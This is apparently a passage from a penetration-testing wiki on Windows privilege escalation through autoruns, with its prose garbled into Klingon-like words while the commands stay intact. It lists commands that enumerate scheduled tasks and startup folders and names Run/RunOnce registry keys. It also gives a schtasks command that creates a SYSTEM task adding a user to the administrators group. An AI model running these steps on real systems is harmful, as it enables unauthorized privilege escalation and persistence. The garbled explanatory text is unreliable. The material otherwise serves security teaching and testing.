 **Qapla' ghoS** Dujmey **ghItlh** run **ghItlh** **frequency**. **Binaries** run **ghItlh** **scheduled** **ghItlh** **binaries** **vItlhutlh** **ghItlh** **run**:
```bash
schtasks /query /fo TABLE /nh | findstr /v /i "disable deshab"
schtasks /query /fo LIST 2>nul | findstr TaskName
schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

#Schtask to give admin access
#You can also write that content on a bat file that is being executed by a scheduled task
schtasks /Create /RU "SYSTEM" /SC ONLOGON /TN "SchedPE" /TR "cmd /c net localgroup administrators user /add"
```
## QaSpu'

**Startup qet are going to be executed on startup**. The common startup qet are the ones listed a continuation, but the startup qet is indicated in the registry. [Read this to learn where.](privilege-escalation-with-autorun-binaries.md#startup-path)
```bash
dir /b "C:\Documents and Settings\All Users\Start Menu\Programs\Startup" 2>nul
dir /b "C:\Documents and Settings\%username%\Start Menu\Programs\Startup" 2>nul
dir /b "%programdata%\Microsoft\Windows\Start Menu\Programs\Startup" 2>nul
dir /b "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup" 2>nul
Get-ChildItem "C:\Users\All Users\Start Menu\Programs\Startup"
Get-ChildItem "C:\Users\$env:USERNAME\Start Menu\Programs\Startup"
```
## Registry

{% hint style="info" %}
[Note from here](https://answers.microsoft.com/en-us/windows/forum/all/delete-registry-key/d425ae37-9dcc-4867-b49c-723dcd15147f): The **Wow6432Node** registry entry indicates that you are running a 64-bit Windows version. The operating system uses this key to display a separate view of HKEY\_LOCAL\_MACHINE\SOFTWARE for 32-bit applications that run on 64-bit Windows versions.
{% endhint %}

### Runs

**Commonly known** AutoRun registry:

* `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`
* `HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run`
* `HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce`
* `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
* `HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run`
* `HKCU\Software\Wow6432Npde\Microsoft\Windows\CurrentVersion\RunOnce`
* `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Terminal Server\Install\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Terminal Server\Install\Software\Microsoft\Windows\CurrentVersion\Runonce`
* `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Terminal Server\Install\Software\Microsoft\Windows\CurrentVersion\RunonceEx`
